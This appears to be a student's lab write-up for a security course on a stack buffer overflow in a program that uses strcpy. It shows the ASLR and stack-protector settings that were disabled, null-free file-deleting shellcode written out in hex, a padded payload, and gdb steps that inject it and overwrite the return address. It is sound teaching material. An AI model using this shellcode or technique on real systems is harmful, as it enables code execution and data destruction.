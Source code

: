 # 21110755, Phạm Văn Cao

#Lab#2 Inject code to delete file: file_del.asm is given on github 

## I. Setup enviroment.
The command `sudo sysctl -w kernel.randomize_va_space=0` is used to disable Address Space Layout Randomization (ASLR) on the system.The image below shows the execution of this command.

![alt text](imgs/1.png)

The code has a **buffer overflow** vulnerability because `strcpy()` is used without checking the length of the input string, which can cause memory overwrite if the input is too long.

![alt text](imgs/2.png)

We then proceed to compile the program using the following options.
The command `gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2` compiles the `vuln.c` file with several flags:
- `-g` includes debugging information.
- `-fno-stack-protector` disables stack protection, making the program more vulnerable to buffer overflows.
- `-z execstack` allows the stack to be executable, which can enable the execution of injected code.
- `-mpreferred-stack-boundary=2` changes the stack alignment to 4 bytes, which can influence how memory is allocated.

![alt text](imgs/3.png)

Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:
sudo ln -sf /bin/zsh /bin/sh .

Based on the sample assembly file, we compile it and view it in hexadecimal format to observe the output.

![alt text](imgs/4.png)

![alt text](imgs/5.png)

We observe that the string contains `\x00` (null bytes), which can prematurely terminate the shellcode. Therefore, i create new file `file_del1.asm` to prevent the inclusion of null bytes and ensure the shellcode executes correctly.

![alt text](imgs/6.png)

![alt text](imgs/7.png)

string shell code: \xeb\x15\x31\xc0\xb0\x05\x04\x05\xbb\x7c\x80\x04\x08\xcd\x80\x31\xc0\xb0\x02\x2c\x01\xcd\x80\xe8\xe6\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65

In the `objdump` analysis of `file_del1`, compiled from `file_del.asm`,

![alt text](imgs/8.png)

 we see the disassembled code and hexadecimal representation of the file. The string `dummyfile` is stored at address `0x804807c`. However, this address will change once the shellcode is inserted into the buffer. Thus, we need to adjust the address to match the new location of the string in the buffer.


in vuln.c program we have stack frame

![alt text](imgs/9.png)

string shell code have length = 37 bytes
space length = 68 - 37 =  31 in this 68 are sum of (buf + EBP)
and a string to recognize return address : '\xff\xff\xff\xff'
So, we have prestring buffer: 
('\xeb\x15\x31\xc0\xb0\x05\x04\x05\xbb\x7c\x80\x04\x08\xcd\x80\x31\xc0\xb0\x02\x2c\x01\xcd\x80\xe8\xe6\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65'+'A'*31+'\xff\xff\xff\xff')

In `gdb`, we disassemble the `main` function to inspect the assembly code. We set a breakpoint at address `0x08048441`, and another breakpoint at address `0x0804846b`, which is where the program moves to after the conditional checks and string operations. This allows us to step through the program and examine its behavior at these specific points.
![alt text](imgs/10.png)

run the gdb with payload: 
r $(python -c "print('\xeb\x15\x31\xc0\xb0\x05\x04\x05\xbb\x7c\x80\x04\x08\xcd\x80\x31\xc0\xb0\x02\x2c\x01\xcd\x80\xe8\xe6\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65'+'A'*31+'\xff\xff\xff\xff')")

After running the program with the above payload, we observe that the buffer region now contains the shellcode values. The EBP has been overwritten with the letter 'A', and in the 4 bytes of the return address, we see the string '\xff\xff\xff\xff', which we use for identification.
![alt text](imgs/11.png)

Setting the value 0x00 after the shellcode marks the end of the shellcode, ensuring that execution does not continue into unintended memory regions

![alt text](imgs/12.png)

Modify the _filename ‘dummyfile’ adresss to appropriate address in buffer. This modification ensures that the value at 0xffffd6c1 now correctly points to the address of the "dummyfile" string in memory, allowing the program or shellcode to properly access the filename during execution.

![alt text](imgs/13.png)

and Set return address to the ESP address:

![alt text](imgs/14.png)

Create the dummyfile, and then use the c command to continue the program in GDB. At this point, we see that the shellcode has successfully executed, and the dummyfile has been deleted.

![alt text](imgs/15.png)
![alt text](imgs/16.png)
